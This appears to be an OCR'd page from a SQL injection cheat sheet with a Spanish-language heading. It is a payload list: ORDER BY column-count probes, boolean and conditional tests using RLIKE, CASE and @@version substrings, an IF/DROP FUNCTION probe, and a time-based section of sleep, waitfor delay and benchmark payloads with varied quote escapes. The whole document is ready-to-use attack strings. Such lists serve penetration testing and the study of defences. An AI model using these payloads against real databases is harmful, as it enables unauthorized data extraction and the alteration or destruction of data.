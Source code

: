 ```sql
 ORDER BY 1# 
 ORDER BY 2# 
 ORDER BY 3# 
 ORDER BY 4# 
 ORDER BY 5# 
 ORDER BY 6# 
 ORDER BY 7# 
 ORDER BY 8# 
 ORDER BY 9# 
 ORDER BY 31337#
 ORDER BY 1 
 ORDER BY 2 
 ORDER BY 3 
 ORDER BY 4 
 ORDER BY 5 
 ORDER BY 31337 
 RLIKE (SELECT (CASE WHEN (4346=4346) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='
 RLIKE (SELECT (CASE WHEN (4346=4347) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='
IF(7423=7424) SELECT 7423 ELSE DROP FUNCTION xcjl--
IF(7423=7423) SELECT 7423 ELSE DROP FUNCTION xcjl--
%' AND 8310=8310 AND '%'='
%' AND 8310=8311 AND '%'='
 and (select substring(@@version,1,1))='X'
 and (select substring(@@version,1,1))='M'
 and (select substring(@@version,2,1))='i'
 and (select substring(@@version,2,1))='y'
 and (select substring(@@version,3,1))='c'
 and (select substring(@@version,3,1))='S'
 and (select substring(@@version,3,1))='X'

```

Basadas en tiempo:

```
# from wapiti
sleep(5)#
1 or sleep(5)#
" or sleep(5)#
' or sleep(5)#
" or sleep(5)="
' or sleep(5)='
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
")) or sleep(5)="
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
'));waitfor delay '0:0:5'--
"));waitfor delay '0:0:5'--
benchmark(10000000,MD5(1))#
1 or benchmark(10000000,MD5(1))#
" or benchmark(10000000,MD5(1))#
' or benchmark(10000000,MD5(1))#
1) or benchmark(10000000,MD5(1))#
") or benchmark(10000000,MD5(1))#
') or benchmark(10000000,MD5(1))#
```